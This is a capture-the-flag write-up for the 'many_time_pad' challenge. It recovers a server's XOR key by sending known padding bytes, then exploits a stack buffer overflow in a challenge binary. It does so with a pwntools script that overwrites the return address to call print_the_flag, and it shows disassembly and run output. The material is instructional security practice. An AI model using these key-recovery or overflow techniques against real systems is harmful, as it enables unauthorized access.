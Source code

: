 # many_time_pad

For this challenge, we are giving a link to a web page.  Going to it, we are greeted with this:  
![img](img/1.png)

They also give us the source code for the web server:

```python
from app import app
from app import cfg
from flask import render_template,request,redirect,make_response,send_file

#serve index.html
@app.route("/")
def index():
    return render_template("index.html")

#encrypt messages that are POSTed to /encrypt
@app.route("/encrypt", methods=["POST"])
def encrypt():
    #truncate message if longer than 256 bytes, convert to byte string
    plaintext = request.form.get("message")[:256].encode()
    #pad message with \xff bytes
    plaintext += b'\xff' * (256 - len(plaintext))
    #xor byte string with secret key
    ciphertext = bytes([plaintext_byte ^ key_byte for plaintext_byte, key_byte in zip(plaintext, cfg.secret_byte_string)])
    #put the ciphertext in a response header
    resp = make_response(render_template("index.html"))
    resp.headers["ciphertext"] = repr(ciphertext)
    return resp

#send server source code to those who request it
@app.route("/source")
def source():
    return send_file("./views.py")

#secret admin page, the URL is the secret key so it is secure
@app.route("/" + cfg.secret_byte_string.decode())
def win():
    return(render_template("win.html"))
```

Looking though the source code, it looks like our goal is to find `secret_byte_string`, as that will tell us the path to the admin site.  We also see how the ciphertext is generated.  It's an XOR between each byte of the plaintext we provide with the secret key.  So with the properties of XOR, if we know the plaintext and the ciphertext that would be generated, we can find the secret key!

We see here that our plaintext gets padded with `\xff` to get to 256 bytes, so if we just don't input anything into the field box, then we know our plaintext is `\xff\xff\xff ... ` 256 times. So let's try that, and look at the response header we get from sending it.

![img](img/2.png)

Alright, looks like we have the ciphertext, now to just XOR it with our plaintext. Xoring and coverting to ascii we get out path:  
`if-you-tried-to-dirbuster-this-route-I-will-forward-you-the-OSUSEC-AWS-bill-never-gonna-give-you-up-never-gonna-let-you-down-never-gonna-run-around-and-desert-you-never-gonna-make-you-cry-never-gonna-say-goodbye-never-gonna-tell-a-lie-and-hurt-you-12345678`

We are then given a site with shows us how to set up our enviroment to do a pwn challenge along with a baby pwn to solve.  We are even given some skeleton code that we can use for the exploit.

Downloading the binary and disassembling it through gdb, we can immediatly see a vulnerability.  At `main+53`, we have a call to fgets, which would allow us to perform a buffer overflow attack.

```
gdb-peda$ disass main
Dump of assembler code for function main:
   0x000000000040071b <+0>:     push   rbp
   0x000000000040071c <+1>:     mov    rbp,rsp
   0x000000000040071f <+4>:     sub    rsp,0x10
   0x0000000000400723 <+8>:     mov    eax,0x0
   0x0000000000400728 <+13>:    call   0x400692 <check_the_key>
   0x000000000040072d <+18>:    test   eax,eax
   0x000000000040072f <+20>:    jne    0x40075c <main+65>
   0x0000000000400731 <+22>:    lea    rdi,[rip+0x108]        # 0x400840
   0x0000000000400738 <+29>:    call   0x400520 <puts@plt>
   0x000000000040073d <+34>:    mov    rdx,QWORD PTR [rip+0x20090c]        # 0x601050 <stdin@@GLIBC_2.2.5>
   0x0000000000400744 <+41>:    lea    rax,[rbp-0x10]
   0x0000000000400748 <+45>:    mov    esi,0x20
   0x000000000040074d <+50>:    mov    rdi,rax
   0x0000000000400750 <+53>:    call   0x400540 <fgets@plt>
   0x0000000000400755 <+58>:    mov    eax,0x0
   0x000000000040075a <+63>:    jmp    0x40075e <main+67>
   0x000000000040075c <+65>:    nop
   0x000000000040075d <+66>:    nop
   0x000000000040075e <+67>:    leave
   0x000000000040075f <+68>:    ret
End of assembler dump.
```

We can also open up the binary in Ghidra and see that the buffer we need to fill is 16 bytes long. Perfect, what can we do with this though?  Looking at the functions, we see something promising:

```
gdb-peda$ info functions

0x0000000000400647  print_the_flag
```

We also need to pass in our key we got from the web challenge portion to get to this point, so we need to remember to account for that.
So our current plan of attack sounds like:
1. Pass in our key
2. Fill the buffer up with 16 byte
3. Overwrite EBP with 8 bytes
4. Overwrite EIP with the address of `print_the_flag`
5. Win

In python, that looks like:

```python
from pwn import *
buffer_size = 16
addr_of_printflag_function = 0x0000000000400647
secret_key_string = "if-you-tried-to-dirbuster-this-route-I-will-forward-you-the-OSUSEC-AWS-bill-never-gonna-give-you-up-never-gonna-let-you-down-never-gonna-run-around-and-desert-you-never-gonna-make-you-cry-never-gonna-say-goodbye-never-gonna-tell-a-lie-and-hurt-you-12345678"

p = remote("ctf-league.osusec.org", 31309)

print(p.recv())

print("sending the key string: " + secret_key_string)
p.send(secret_key_string)
print("response: " + p.recv().decode())

payload = b'A' * buffer_size

payload += b'B' * 8

payload += p64(addr_of_printflag_function)
print(b"payload: " + payload)
p.send(payload)
```

And running it we get the flag!!!

```
cameron@LAPTOP-PEKGUHAN:/mnt/c/Users/Cameron McCawley/Desktop/mtp$ python2 exploit.py
[+] Opening connection to ctf-league.osusec.org on port 31309: Done
enter the secret key from the web portion of this challenge
sending the key string: if-you-tried-to-dirbuster-this-route-I-will-forward-you-the-OSUSEC-AWS-bill-never-gonna-give-you-up-never-gonna-let-you-down-never-gonna-run-around-and-desert-you-never-gonna-make-you-cry-never-gonna-say-goodbye-never-gonna-tell-a-lie-and-hurt-you-12345678
response:

payload: AAAAAAAAAAAAAAAABBBBBBBBG\x06\x00\x00\x00
[*] Switching to interactive mode
overflow my buffer and return to the print_the_flag function
osu{L0N6_W01f_H^x0r}
```


